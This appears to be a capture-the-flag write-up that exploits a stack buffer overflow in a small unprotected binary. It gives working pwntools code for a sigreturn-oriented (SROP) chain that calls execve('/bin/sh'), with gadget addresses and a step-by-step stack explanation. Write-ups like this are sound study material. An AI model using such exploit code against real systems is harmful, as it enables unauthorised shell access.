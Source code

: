 # Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
Arch:       amd64
RELRO:      No RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x42000)
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
```

As we can see, we can do something there!

The program has no interface, so we head into the disassembly right away.

### Disassembly

Starting with `_start()`:

![image](https://github.com/user-attachments/assets/38bc394c-4df5-4510-98a1-821a9ac64cb2)

![image](https://github.com/user-attachments/assets/f1b71c35-c417-4886-8d7d-c9c2c2ab5d9a)

That's the whole binary, we see there is a huge buffer overflow that `rdx` reads up to `0x106 = 262` bytes by read syscall. And we can modify return address if we send enough bytes to override. First of all, we need to find a possible gadget and `/bin/sh` address.

![image](https://github.com/user-attachments/assets/618d8c46-cbd1-4c37-987e-bf7fc383a72f)


Now that we have this, we can craft the `SROP` chain.
We want to execute system("/bin/sh") but in assembly language it is execve("/bin/sh", argument, env ) function.

![image](https://github.com/user-attachments/assets/b9f3ec88-7915-49f1-88b1-25aac79cd63e)

```python
# Srop
POP_RAX =0x0043018
SYSCALL_RET=0x043015
BINSH = 0x43238
```

After crafting the `frame`, we send the payload to trigger the vulnerability and get shell.

```python
payload = b'a'*0x8  # 8 bytes override for save rbp
payload += p64(POP_RAX)
payload += p64(0xf)  # syscall number for rt_sigreturn(), search for linux syscall table
payload += p64(SYSCALL_RET)

frame = SigreturnFrame()
frame.rax = 0x3b           # syscall number for execve() function, u can search linux syscall table
frame.rdi = BINSH          
frame.rsi = 0x0             
frame.rdx = 0x0 
frame.rip = SYSCALL_RET   

payload += bytes(frame)
```
# Why I created like this. We should know how the stack allocate data.

[filler | rop.rax[0] | 0xf | rop.syscall[0] | Sigreturn Frame]

When SYS_read reads the payload onto the stack (at RSP - 8), the stack looks like this:
```
RSP-8: "aaaaaaaa"
RSP: rop.rax[0]
RSP+8: 0xf
RSP+16: rop.syscall[0]
RSP+24: [Sigreturn Frame]
```
The ret instruction jumps to the value at RSP now is RAX

Gadget pop rax; ret:

pop rax: Get 0xf from RSP+8 and allocate it to RAX.

ret: Skip to rop.syscall[0] at RSP+16.

The syscall gadget (at rop.syscall[0]) calls SYS_rt_sigreturn because RAX = 0xf now.
Why is this needed?

SYS_rt_sigreturn requires RAX = 0xf and needs a way to put this value into RAX. The pop rax utility; ret is the only tool in the program that is allowed to do that.
After RAX = 0xf, we need to call the syscall to execute. So this ROP string is the "start" step to move to the next stage.

Thinking: The ROP chain is like a "bridge" from the initial state of the program (after SYS_read) to the SROP mechanism.
# Sigreturn Frame Section - "Execute the final goal"

Goal: Provide a frame signal to the kernel to read when SYS_rt_sigreturn is called, from which registers are set to call execve("/bin/sh", NULL, NULL).

When SYS_rt_sigreturn is called (from the utility syscall in stage 1), the kernel checks the stack at location RSP for the Sigreturn Frame.

At this point, RSP points to RSP+24 (byte(frame) section), which contains the values:
RAX = 0x3b (execve syscall number).
RDI = binsh (pointer to /bin/sh).
RSI = 0x0 (NULL).
RDX = 0x0 (NULL).
RIP = rop.syscall[0] (return utility syscall).

The kernel "restores" these registers and jumps to rop.syscall[0].
The utility syscall is called again, but now RAX = 0x3b, so it executes execve("/bin/sh", NULL, NULL).

Why is this part needed?
SYS_rt_sigreturn doesn't know that we want to call execve. We have to provide a frame signal to "tell" the kernel: "Set the registers like this and jump here".

This is the only way to control multiple registers at once (RAX, RDI, RSI, RDX, RIP) without needing a longer ROP chain (which is hard to find in a small binary like this).

Running solver remotely at IP port

### Result


![image](https://github.com/user-attachments/assets/1cfc6b67-e5b1-42c0-8116-027ec9c7467d)

